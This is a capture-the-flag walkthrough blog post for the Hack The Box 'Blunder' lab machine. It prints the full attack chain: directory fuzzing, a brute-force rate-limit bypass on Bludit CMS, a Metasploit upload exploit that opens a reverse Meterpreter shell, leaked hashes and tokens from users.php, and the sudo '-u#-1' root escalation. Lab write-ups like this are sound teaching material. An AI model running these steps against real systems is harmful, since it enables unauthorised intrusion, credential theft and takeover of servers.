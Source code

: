 ```yaml
---
layout: post
title:  "Blunder Hack The Box Walkthrough"
date:   2020-09-28 15:00:00 +0530
categories: HackTheBox HTB CTF
---
```

Blunder is a machine in which I used an enumration and a multiple cms exploits to get a shell and then enumeration and another exploit to get root Access.

## Scanning
As always, I started scanning with Nmap

```
root@kali:/home/kali# nmap -sC -sV 10.10.10.191
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 10:15 EDT
Nmap scan report for blunder.htb (10.10.10.191)
Host is up (0.16s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.15 seconds

```
Http open and ftp closed. 
## Directory Enumeration
Then I enumerated directories and files using gobuster

```
root@kali:/home/kali# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u blunder.htb -e txt,php,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://blunder.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/09/29 10:16:49 Starting gobuster
===============================================================                                                   
http://blunder.htb/about (Status: 200)
http://blunder.htb/0 (Status: 200)
http://blunder.htb/admin (Status: 301)
http://blunder.htb/usb (Status: 200)
http://blunder.htb/LICENSE (Status: 200)
```
Found admin directory which contains a login page. then used wfuzz to enumerate directories

```
kali@kali:~$ wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404,403 http://10.10.10.191/FUZZ.txt

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.191/FUZZ.txt
Total requests: 4658

===================================================================
ID           Response   Lines    Word     Chars       Payload                                          
===================================================================

000003519:   200        1 L      4 W      22 Ch       "robots"                                         
000004125:   200        4 L      23 W     118 Ch      "todo"                                           

Total time: 220.7807
Processed Requests: 4658
Filtered Requests: 4656
Requests/sec.: 21.09785

```

Found todo.txt so I opened it and found a user called fergus

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

## Bruteforce
The Login Page It contains rate limit so I searched for an exploit to bypass Rate limit and found [Exploit](https://raw.githubusercontent.com/musyoka101/Bludit-CMS-Version-3.9.2-Brute-Force-Protection-Bypass-script/master/bruteforce.py) 

If you tried the rockyou list it won't work so I used cewl

```
cewl http://10.10.10.191
```

then used the exploit

```
kali@kali:~/Desktop/blunder2$ python exploit.py 10.10.10.191 fergus wordlist 
[*] Trying: CeWL 5.4.7 (Exclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
[*] Trying: the
....
[*] Trying: RolandDeschain
()
SUCCESS: Password found!
Use fergus:RolandDeschain to login.

```
## Exploit
I searched for an exploits for bludit in metasploit and found one
```
msf5 > use exploit/linux/http/bludit_upload_images_exec 
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > exploit 

[*] Started reverse TCP handler on 10.10.14.110:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading ZNhMscEKTp.png...
[*] Uploading .htaccess...
[*] Executing ZNhMscEKTp.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.14.110:4444 -> 10.10.10.191:41004) at 2020-09-29 10:31:07 -0400

```

## From Web to Hugo
I started enumeration and found an interesting credentials in

```
cat /var/www/bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

So, I started cracking the hash 
![Username](/assets/machines/hackthebox/Blunder/1.png)

then started su to hugo

```
su hugo              
Password: Password120
whoami
hugo
```
Then tried to try sudo -l

```
python -c 'import pty; pty.spawn("/bin/bash")'
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

I tried to bypass the this sudo permissions to run /bin/bash using this [Exploit](https://www.exploit-db.com/exploits/47502)

```
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -u#-1 /bin/bash
<-3.10.0a/bl-content/databases$ sudo -u#-1 /bin/bash       
root@blunder:/var/www/bludit-3.10.0a/bl-content/databases#  

```

and voila here is the root privilege!